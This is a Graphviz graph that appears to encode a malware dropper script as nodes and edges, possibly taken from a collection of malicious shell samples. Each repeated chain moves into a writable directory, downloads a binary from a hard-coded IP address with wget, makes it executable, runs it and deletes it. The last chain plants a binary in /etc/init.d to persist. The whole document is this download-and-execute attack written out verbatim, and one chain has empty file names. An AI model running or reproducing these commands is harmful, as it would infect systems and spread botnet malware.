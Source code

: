 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://49.149.105.103/aaaajalungka "];
10 -> 12 [label=";,"];
12 [label="chmod +x aaaajalungka "];
12 -> 14 [label=";,"];
14 [label="./aaaajalungka "];
14 -> 16 [label=";,"];
16 [label="rm -rf aaaajalungka "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://49.149.105.103/aaaajamango "];
28 -> 30 [label=";,"];
30 [label="chmod +x aaaajamango "];
30 -> 32 [label=";,"];
32 [label="./aaaajamango "];
32 -> 34 [label=";,"];
34 [label="rm -rf aaaajamango "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://49.149.105.103/aaaajaopenggl "];
46 -> 48 [label=";,"];
48 [label="chmod +x aaaajaopenggl "];
48 -> 50 [label=";,"];
50 [label="./aaaajaopenggl "];
50 -> 52 [label=";,"];
52 [label="rm -rf aaaajaopenggl "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://49.149.105.103/aaaajavast "];
64 -> 66 [label=";,"];
66 [label="chmod +x aaaajavast "];
66 -> 68 [label=";,"];
68 [label="./aaaajavast "];
68 -> 70 [label=";,"];
70 [label="rm -rf aaaajavast "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://49.149.105.103/aaaajagreyps "];
82 -> 84 [label=";,"];
84 [label="chmod +x aaaajagreyps "];
84 -> 86 [label=";,"];
86 [label="./aaaajagreyps "];
86 -> 88 [label=";,"];
88 [label="rm -rf aaaajagreyps "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://49.149.105.103/aaaajakuhamo "];
100 -> 102 [label=";,"];
102 [label="chmod +x aaaajakuhamo "];
102 -> 104 [label=";,"];
104 [label="./aaaajakuhamo "];
104 -> 106 [label=";,"];
106 [label="rm -rf aaaajakuhamo "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://49.149.105.103/aaajamarco "];
118 -> 120 [label=";,"];
120 [label="chmod +x aaajamarco "];
120 -> 122 [label=";,"];
122 [label="./aaajamarco "];
122 -> 124 [label=";,"];
124 [label="rm -rf aaajamarco "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://49.149.105.103/aaaajachikos "];
136 -> 138 [label=";,"];
138 [label="chmod +x aaaajachikos "];
138 -> 140 [label=";,"];
140 [label="./aaaajachikos "];
140 -> 142 [label=";,"];
142 [label="rm -rf aaaajachikos "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://49.149.105.103/aaaajapchikos "];
154 -> 156 [label=";,"];
156 [label="chmod +x aaaajapchikos "];
156 -> 158 [label=";,"];
158 [label="./aaaajapchikos "];
158 -> 160 [label=";,"];
160 [label="rm -rf aaaajapchikos "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://49.149.105.103/aaaajacos "];
172 -> 174 [label=";,"];
174 [label="chmod +x aaaajacos "];
174 -> 176 [label=";,"];
176 [label="./aaaajacos "];
176 -> 178 [label=";,"];
178 [label="rm -rf aaaajacos "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://49.149.105.103/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://49.149.105.103/aaaajafacebook3 "];
208 -> 210 [label=";,"];
210 [label="chmod +x aaaajafacebook3 "];
210 -> 212 [label=";,"];
212 [label="./aaaajafacebook3 "];
212 -> 214 [label=";,"];
214 [label="rm -rf aaaajafacebook3 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://49.149.105.103/aaaajanetdelds "];
226 -> 228 [label=";,"];
228 [label="chmod +x aaaajanetdelds "];
228 -> 230 [label=";,"];
230 [label="./aaaajanetdelds "];
230 -> 232 [label=";,"];
232 [label="rm -rf aaaajanetdelds "];
232 -> 234 [label=";,"];
234 [label="cd /etc/init.d "];
234 -> 234
236 [label="wget http://49.149.105.103/tukhangs "];
236 -> 238 [label=";,"];
238 [label="chmod 0777 tukhangs "];
238 -> 240 [label=";,"];
240 [label="./tukhangs "];
240 -> 241 [label=";,"];
}
